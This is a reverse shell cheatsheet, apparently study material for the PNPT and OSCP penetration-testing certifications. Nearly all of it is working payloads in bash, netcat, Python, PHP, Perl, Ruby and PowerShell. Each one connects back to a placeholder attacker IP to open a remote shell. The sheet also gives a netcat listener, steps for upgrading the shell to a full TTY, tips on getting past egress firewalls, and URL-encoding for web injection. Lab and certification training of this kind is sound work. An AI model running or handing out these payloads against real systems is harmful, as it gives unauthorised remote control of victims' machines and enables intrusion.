 ```yaml
---
title: Reverse Shell Cheatsheet (PNPT/OSCP)
---
```



First, start a listener on your attacker machine to catch the incoming connection. **Always start your listener first!**

**Your IP Address:** `10.10.10.10` (replace with your actual TUN0/VPN IP)
**Your Port:** `443` (using common ports like 80, 443, or 53 can sometimes bypass firewall egress filters)

### Netcat (`nc`)

The classic. Reliable and simple.

```shell
sudo nc -nvlp 443
```

 - `-n`: No DNS resolution (faster).
 - `-v`: Verbose output (shows you when a connection comes in).
 - `-l`: Listen mode.
 - `-p`: Port number to listen on.
 - `sudo`: Use sudo if you're listening on a privileged port (1-1024).

## The Payloads: Getting the Shell

Run one of these commands on the target/victim machine.

### Bash

The most common shell on Linux.

**Standard TCP:**

```shell
bash -i >& /dev/tcp/10.10.10.10/443 0>&1
```

**Shorter Version:**

```shell
bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'
```

### Netcat (nc)

If `nc` is on the target, it can be used to send a shell back.

**Classic (requires `-e` flag, which is often disabled):**

```shell
nc -e /bin/bash 10.10.10.10 443
```

**FIFO Pipe (if -e is missing):**

```shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 443 > /tmp/f
```

### Python

Almost always available on Linux systems.

### Python 2:

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python 3:

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

### PHP

Very common for web server command injection vulnerabilities.

```php
php -r '$sock=fsockopen("10.10.10.10",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

:::note If injecting into a web URL, you may need to URL-encode this payload. Use a tool like **CyberChef**.
:::

### Perl

```perl
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Windows Payloads

### PowerShell (Very Common)

This is your go-to for modern Windows systems.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

 - `nop` stands for `NoProfile`, which makes it load faster.

### nc.exe

If you can upload a file, upload `nc.exe` (a common version is available with the `Nmap` installation on Windows).

```cmd
nc.exe -e cmd.exe 10.10.10.10 443
```

##  Upgrading to a Fully Interactive TTY

You've got a shell, but it's basic. You can't use tab complete, arrow keys, or `clear`. Let's fix that.

### Step 1: Spawn a better shell with Python (on the victim machine)

This is the most common method.

```py
python3 -c 'import pty; pty.spawn("/bin/bash")'
# If python3 isn't available, try 'python' or 'python2'
```

### Step 2: Get Terminal Info (on your attacker machine)

Check your terminal size.

```shell
stty size
# Output might be: 24 80
```

### Step 3: Background the shell (on your attacker machine)

Press **Ctrl + Z** to background your `nc` listener.

### Step 4: Set up your local terminal (on your attacker machine)

This command gives your local terminal raw mode, so keystrokes like `Ctrl+C` are passed to the remote host instead of killing your shell.

```shell
stty raw -echo; fg
```

After typing this, type `fg` and press Enter. This will bring your reverse shell back to the foreground.

### Step 5: Final Setup (on the victim machine)

Your shell will look weird and might not show what you type.** Just type these commands blindly and press Enter.**

```shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 24 cols 80 # Use the values from Step 2
```

Congratulations! You now have a fully interactive shell. You can use arrow keys, tab completion, `clear`, `su`, `ssh`, and `nano`/`vim`.


## Troubleshooting Tips

 - **Connection Refused**: Your listener isn't running, you used the wrong port, or a firewall on the victim's end is blocking the connection.
 - **Connection Times Out**: An egress firewall on the victim's network is blocking the outbound connection. Try a different port (80, 53, 8080).
 - **Shell Immediately Dies**: You might be catching the shell with /bin/sh which doesn't have an interactive mode. Try specifying /bin/bash in your payload. Also, ensure your listener is still running.
 - **Command Not Found**: The payload you're using (python, nc, perl) doesn't exist on the target. Enumerate the system's /bin and /usr/bin directories to see what's available and use a different payload.
 - **URL Encoding**: For web exploits, make sure your payload is properly URL encoded. A space (     ) becomes %20, a plus (+) becomes %2B, a quote (') becomes %27, etc. Use CyberChef to be safe.
